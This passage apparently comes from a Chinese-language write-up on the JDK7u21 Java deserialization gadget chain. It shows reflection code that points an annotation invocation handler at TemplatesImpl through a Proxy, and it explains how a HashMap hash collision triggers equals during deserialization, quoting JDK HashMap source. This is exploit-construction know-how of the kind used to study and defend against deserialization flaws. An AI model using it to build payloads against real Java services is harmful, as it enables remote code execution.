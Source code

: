 > //set anno.type
> setValue(anno,"type",TemplatesImpl.class);
> 
> unsetFinal(anno,"memberMethods");
> setValue(anno,"memberMethods",new Method[]{clazz.getDeclaredMethod("getOutputProperties")});
> 
> Map map = (Map) Proxy.newProxyInstance(Gadget.class.getClassLoader(), new Class[]{Map.class}, (InvocationHandler) anno);
> map.equals(templates);
> ```



**3.接下来就是想办法怎么触发equals方法，且参数可控**

> 要求反序列化中会进行equals方法的，直接可以去全局搜索，这里借用`codeql`的话就很香了。

**4.这里就直接丢出目前链子的利用点，直接采用hashMap之类的？为什么采用这个类呢？**

```java
//HashMap.java
public V put(K key, V value) {
    if (key == null)
        return putForNullKey(value);
    int hash = hash(key);
    int i = indexFor(hash, table.length);
    for (Entry<K,V> e = table[i]; e != null; e = e.next) {
        Object k;
        if (e.hash == hash && ((k = e.key) == key || key.equals(k))) {
            V oldValue = e.value;
            e.value = value;
            e.recordAccess(this);
            return oldValue;
        }
    }

    modCount++;
    addEntry(hash, key, value, i);
    return null;
}
```

map类在反序列化时肯定进行put操作，这时，我们直接看put方法。`其中会有equals操作，前提是key的hash相等，但key不等，相当于就是做hash碰撞》》》也就是让proxy的hash与Templates的hash相等`

> `yso中巧妙的构造hash-->参照<java 安全漫谈>`
>
> ```java
> final int hash(Object k) {
>  int h = 0;
>  if (useAltHashing) {
>      if (k instanceof String) {
>          return sun.misc.Hashing.stringHash32((String) k);
>      }
>      h = hashSeed;
>  }
> 
>  h ^= k.hashCode();
> 
>  // This function ensures that hashCodes that differ only by
>  // constant multiples at each bit position have a bounded
>  // number of collisions (approximately 8 at default load factor).
>  h ^= (h >>> 20) ^ (h >>> 12);
>  return h ^ (h >>> 7) ^ (h >>> 4);
> }
> ```
>
> 可以看到，hash就是直接调用了对象的hashCode方法生成的。